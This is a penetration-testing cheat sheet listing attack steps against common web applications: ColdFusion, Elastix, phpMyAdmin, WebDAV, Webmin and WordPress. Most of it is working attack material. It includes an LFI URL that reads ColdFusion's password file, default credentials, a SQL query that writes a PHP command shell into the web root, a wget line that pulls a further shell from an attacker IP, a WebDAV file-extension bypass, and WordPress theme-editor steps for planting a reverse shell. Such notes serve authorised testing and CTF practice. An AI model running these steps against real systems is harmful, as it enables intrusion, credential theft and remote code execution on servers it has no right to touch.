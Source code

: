 # Common web-services

This is a list of some common web-services. The list is alphabetical.

## Cold Fusion

If you have found a cold fusion you are almost certainly struck gold.  
[http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

### Determine version

example.com/CFIDE/adminapi/base.cfc?wsdl  
It will say something like:

```
<!--WSDL created by ColdFusion version 8,0,0,176276-->
```

### Version 8

#### FCKEDITOR

This works for version 8.0.1. So make sure to check the exact version.

```
use exploit/windows/http/coldfusion_fckeditor
```

#### LFI

This will output the hash of the password.

```
http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

You can pass the hash.

[http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

[http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/](http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/)

neo-security.xml and password.properties

## Drupal

## Elastix

Full of vulnerabilities. The old versions at least.

[http://example.com/vtigercrm/](http://example.com/vtigercrm/)  
default login is  
`admin:admin`

You might be able to upload shell in profile-photo.

## Joomla

## Phpmyadmin

Default credentials

```
root <blank>
pma <blank>
```

If you find a phpMyAdmin part of a site that does not have any authentication, or you have managed to bypass the authetication you can use it to upload a shell.

You go to:

```
http://192.168.1.101/phpmyadmin/
```

Then click on SQL.

```
Run SQL query/queries on server "localhost":
```

From here we can just run a sql-query that creates a php script that works as a shell

So we add the following query:

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"

# For linux
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```

The query is pretty self-explanatory. Now you just visit `192.168.1.101/shell.php?cmd=ipconfig` and you have a working web-shell.  
We can of course just write a superlong query with a better shell. But sometimes it is easier to just upload a simple web-shell, and from there download a better shell.

### Download a better shell

On linux-machines we can use wget to download a more powerful shell.

```
?cmd=wget%20192.168.1.102/shell.php
```

On windows-machines we can use tftp.

## Webdav

Okay so webdav is old as hell, and not used very often. It is pretty much like ftp. But you go through http to access it. So if you have webdav installed on a xamp-server you can access it like this:

```
cadaver 192.168.1.101/webdav
```

Then sign in with username and password.  
The default username and passwords on xamp are:

Username: **wampp**

Password: **xampp**

Then use **put** and **get** to upload and download. With this you can of course upload a shell that gives you better access.

If you are looking for live examples just google this:

```
inurl:webdav site:com
```

Test if it is possible to upload and execute files with webdav.

```
davtest -url http://192.168.1.101 -directory demo_dir -rand aaaa_upfileP0C
```

If you managed to gain access but is unable to execute code there is a workaround for that!  
So if webdav has prohibited the user to upload .asp code, and pl and whatever, we can do this:

upload a file called shell443.txt, which of course is you .asp shell. And then you rename it to **shell443.asp;.jpg**. Now you visit the page in the browser and the asp code will run and return your shell.

### References

[http://secureyes.net/nw/assets/Bypassing-IIS-6-Access-Restrictions.pdf](http://secureyes.net/nw/assets/Bypassing-IIS-6-Access-Restrictions.pdf)

## Webmin

Webmin is a webgui to interact with the machine.

The password to enter is the same as the passsword for the root user, and other users if they have that right. There are several vulnerabilites for it. It is run on port 10000.

## Wordpress

If viewing the site is weird format wise. Probably due to wordpress using absolute paths instead of relatvie paths. Since hosts names are not in your /etc/hosts file yet. Add the IP and host and it should fix formatting and access to links.

### Enumeration

```
wpscan --url http://TARGEThostname -e vt,tt,u,ap --log wpscan.log

-e: enumerate
-vt: only vulnerable themes
-ap: all plugins
-tt: timthumbs
```

```
wpscan -u http://cybear32c.lab
```

If you hit a 403. That is, the request if forbidden for some reason.  
Read more here: [https://en.wikipedia.org/wiki/HTTP\_403](https://en.wikipedia.org/wiki/HTTP_403)

It could mean that the server is suspicious because you don't have a proper user-agent in your request, in wpscan you can solve this by inserting --random-agent.  
You can of course also define a specific agent if you want that. But random-agent is pretty convenient.

```
wpscan -u http://cybear32c.lab/ --random-agent
```

### Scan for users

You can use wpscan to enumerate users:

```
wpscan -u http://target --enumerate users
```

### Common Exploitation

```
WordPress Admin Access: Appearance->Editor->404 Template
Navigate to TargetIP/wordpress/wp-content/themes/<name of theme>/404.php

or

if dont want to alert other CTF contestants / not break things
WordPress Admin Access: Appearance->Editor->Theme Header
paste php code after first line (<?php)
Navigate to TargetIP/anysitepagewithwordpressheader or curl
```

Note: My fav php shell is under

```
/usr/share/webshells/php/php-reverse-shell.php
```

from [http://pentestmonkey.net/tools/web-shells/php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

